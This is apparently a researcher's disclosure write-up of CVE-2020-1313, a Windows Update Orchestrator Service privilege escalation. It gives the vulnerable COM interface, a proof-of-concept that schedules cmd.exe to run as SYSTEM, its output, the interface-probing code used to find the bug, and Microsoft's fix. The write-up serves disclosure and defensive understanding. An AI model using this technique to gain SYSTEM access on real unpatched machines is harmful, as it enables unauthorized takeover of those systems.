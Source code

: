 # CVE-2020-1313

## Abstract

Windows Update Orchestrator Service is a DCOM service used by other components to install windows updates that
are already downloaded. USO was vulnerable to Elevation of Privileges (any user to local system) due to an improper 
authorization of the callers. The vulnerability affected the Windows 10 and Windows Server Core products. 
Fixed by Microsoft on Patch Tuesday June 2020.

## The vulnerability

The `UniversalOrchestrator` service (`9C695035-48D2-4229-8B73-4C70E756E519`), implemented in `usosvc.dll` is running as `NT_AUTHORITY\SYSTEM` and is configured with access permissions for `BUILTIN\Users` (among others).
Even though enumeration of the COM classes implemented by this service is blocked (OLEView.NET: Error querying COM interfaces - ClassFactory cannot supply requested class), the
`IUniversalOrchestrator` interface (`c53f3549-0dbf-429a-8297-c812ba00742d`) - as exposed by the proxy defintion - can be obtained via standard COM API calls. The following 3 methods are exported:

```
	virtual HRESULT __stdcall HasMoratoriumPassed(wchar_t* uscheduledId, int64_t* p1);//usosvc!UniversalOrchestrator::HasMoratoriumPassed
	virtual HRESULT __stdcall ScheduleWork(wchar_t* uscheduledId, wchar_t* cmdLine, wchar_t* startArg, wchar_t* pauseArg);//usosvc!UniversalOrchestrator::ScheduleWork
	virtual HRESULT __stdcall WorkCompleted(wchar_t* uscheduledId, int64_t p1);//usosvc!UniversalOrchestrator::WorkCompleted
```

The `ScheduleWork` method can be used to schedule a command to be executed in the context of the service and can be done without any authorization of the requestor.
Though the target executable itself must be digitally signed and located under `c:\windows\system32` or common files in `Program Files`, command line arguments can be specified as well. 
This makes it possible to launch `c:\windows\system32\cmd.exe` and gain arbitrary code execution this way under `NT_AUTHORITY\SYSTEM` making this issue a local privilege escalation.

The work is "scheduled", it is not kicked off immediately.

## Proof of Concept

The PoC I created configures a "work" with cmdLine `c:\windows\system32\cmd.exe` and parameters: `/c "whoami > c:\x.txt & whoami /priv >>c:\x.txt"`

Executing it:

```
	C:\111>whoami
	desktop-43rnlku\unprivileged

	C:\111>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                          State
	============================= ==================================== ========
	SeShutdownPrivilege           Shut down the system                 Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled

	C:\111>whoami /priv

	C:\111>UniversalOrchestratorPrivEscPoc.exe
	Obtaining reference to IUniversalOrchestrator
	Scheduling work with id 56594
	Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
```

An entry about the scheduled work is added to the registry:

![Registry entry](https://raw.githubusercontent.com/irsl/CVE-2020-1313/master/poc.png)

The specified command is executed overnight (around 23:20) when no user interaction is expected, or after 3 days of SLA has passed.

## How was this issue found?

When I couldn't obtain the interface definition of the USO service with [OleView.NET](https://github.com/tyranid/oleviewdotnet), I created a script to go through hundreds of CLSID/IID combinations and that I expected to work at some level. It looked something like this:

```
void TestUpdateOrchestratorInterfaceAgainstService(IID& clsId, const char* className, const wchar_t* iidStr, const char *interfaceName)
{
	void *ss = NULL;
	IID iid;
	ThrowOnError(IIDFromString(iidStr, (LPCLSID)&iid)); // working with e at the end, failing with anything else

	HRESULT res = CoCreateInstance(clsId, nullptr, CLSCTX_LOCAL_SERVER, iid, (LPVOID*)&ss);

	printf("%s %s: %s\n", className, interfaceName, res == S_OK ? "WORKING" : "failure");
}

void TestUpdateOrchestratorInterface(const wchar_t* iidStr, const char *interfaceName)
{
	// TestUpdateOrchestratorInterfaceAgainstService(CLSID_AutomaticUpdates, "AutomaticUpdates", iidStr, interfaceName); // timeouting!
	TestUpdateOrchestratorInterfaceAgainstService(CLSID_UxUpdateManager, "UxUpdateManager", iidStr, interfaceName);
	TestUpdateOrchestratorInterfaceAgainstService(CLSID_UsoService, "UsoService", iidStr, interfaceName);
	TestUpdateOrchestratorInterfaceAgainstService(CLSID_UpdateSessionOrchestrator, "UpdateSessionOrchestrator", iidStr, interfaceName);
	TestUpdateOrchestratorInterfaceAgainstService(CLSID_UniversalOrchestrator, "UniversalOrchestrator", iidStr, interfaceName);
	// TestUpdateOrchestratorInterfaceAgainstService(CLSID_SomeService, "SomeService", iidStr, interfaceName); // timeouting!
}

...

	TestUpdateOrchestratorInterface(L"{c57692f8-8f5f-47cb-9381-34329b40285a}", "IMoUsoOrchestrator");
	TestUpdateOrchestratorInterface(L"{4284202d-4dc1-4c68-a21e-5c371dd92671}", "IMoUsoUpdate");
	TestUpdateOrchestratorInterface(L"{c879dd73-4bd2-4b76-9dd8-3b96113a2130}", "IMoUsoUpdateCollection");
        // ... and hundreds of more

```

The result of the approach was:

```
	UniversalOrchestrator IUniversalOrchestrator: WORKING
	UpdateSessionOrchestrator IUpdateSessionOrchestrator: WORKING
	UxUpdateManager IUxUpdateManager: WORKING
```

Then I started reverse engineering the implementation and found the flow described above.


## The fix

Microsoft fixed this issue on Patch Tuesday June 2020 by adding the missing CoImpersonateClient API call.

Implementation before the fix applied:

![Original implementation](https://raw.githubusercontent.com/irsl/CVE-2020-1313/master/the-original-impl.png)

Implementation after the fix applied:

![The fix](https://raw.githubusercontent.com/irsl/CVE-2020-1313/master/the-fix.png)

How does this help? Impersonation is done at the beginning of processing the request, so the API calls to update the registry are executed in the caller's security context. If the caller has no privilege on HKEY_LOCAL_MACHINE, the uso API method will fail accordingly.

## Credits

[Imre Rad](https://www.linkedin.com/in/imre-rad-2358749b/)

## More info

https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1313

